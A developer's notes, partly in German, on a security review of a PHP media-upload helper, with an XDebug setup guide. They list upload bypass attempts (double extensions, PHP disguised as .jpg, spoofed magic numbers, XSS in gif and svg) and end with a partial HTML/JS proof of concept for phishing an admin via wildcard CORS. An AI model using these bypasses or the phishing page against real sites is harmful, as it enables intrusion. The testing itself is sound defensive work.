

## Notes about Security

Mittwoch:
	* Task definition
	* Talk with Julia: 
		* Whats the scope?
		* What do we want to do?
			* concept 
			* proof of concept implementation

Donnerstag: 
	* Debugger
	* Testing von Fileuploads
		* svg
		* image.jpg.php
		* a php script with .jpg ending


Freitag: 
	* XSS gif
	* script file getarnt als png, indem magic number als hex eingetragen worden ist
		* upload ging, aber was damit anstellen?
	* Testing von Fileuploads
		* svg
		* image.jpg.php
		* a php script with .jpg ending
	* versucht article scripte einzubinden.
		* hat nicht funktiniert
	d.h. Bypass Content-Type & magic number funktioniert in gewissen masse, aber bringt nicht viel, ausser das die datein im /images folder liegen und mehr oder weniger kautte .png bzw. .gif sind.
	* Datei extensions evaluiert. Alle Formate machen soweit sinn. Doc dateien könnten macros enthalten, sind aber auch ausreichen gekapselt.
	
Montag:
	* MediaHelper XSS Check sinnvoll gestalten
	* Ideen:
		* HTML Sanitze Check, damit html datein hochgeladen werden können
		* SVG ist ontop of html und damit noch schwieriger/unsicherer


### XDebug 3 Config with lampp stack inside container running on WSL and PHPStorm


install xdebug via pecl, e.g., /opt/lampp/bin/pecl install xdebug and configure the php.ini.
Make sure to edit the correct php.ini. You can see which one to edit in the phpinfo()


#### PHP.ini

client_host is important. It is the ip of the windows machine, that is the machine running phpstorm


```ini
[xdebug]
zend_extension=/opt/lampp/lib/php/extensions/no-debug-non-zts-20190902/xdebug.so

xdebug.mode=debug
xdebug.client_port=9000
xdebug.client_host=192.168.178.21
xdebug.start_with_request=yes
xdebug.discover_client_host=0
xdebug.idekey=PHPSTORM
xdebug.show_error_trace = 1
xdebug.max_nesting_level=250
xdebug.var_display_max_depth=10
xdebug.log=/var/log/xdebug.log
```


PHPStorm

just make sure the path mapping are correct. Make sure your local project files map to the project in the container


#### Security-Try 

Enable Cors with Wildcard, because someone might think its a good thing



HTML/JS which might get called by an admin via email or w/e phishing
```html
<html>

<body>
	<script type="text/javascript">
		var img = new Image();

		img.crossOrigin = 'anonymous';

		document.body.appendChild(img)
		// The magic begins after the image is successfully loaded
		img.onload = function () {
			var canvas = document.createElement('canvas'),
				ctx = canvas.getContext('2d');

			canvas.height = img.naturalHeight;
			canvas.width = img.naturalWidth;
			ctx.drawImage(img, 0, 0);
			var uri = canvas.toDataURL('image/png'),
				b64 = uri.replace(/^data:image.+;base64,/, '');

			console.log(b64); //-> "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWP4z8DwHwAFAAH/q842iQAAAABJRU5ErkJggg=="
		};
		img.src = "http://localhost:8080/www/mediahelper_security/images/xss2.png"

		// 1) decode image 
		// 2) remove magic number bytes
		// 3) exectue malware :))
	</script>
</body>
</html>
```
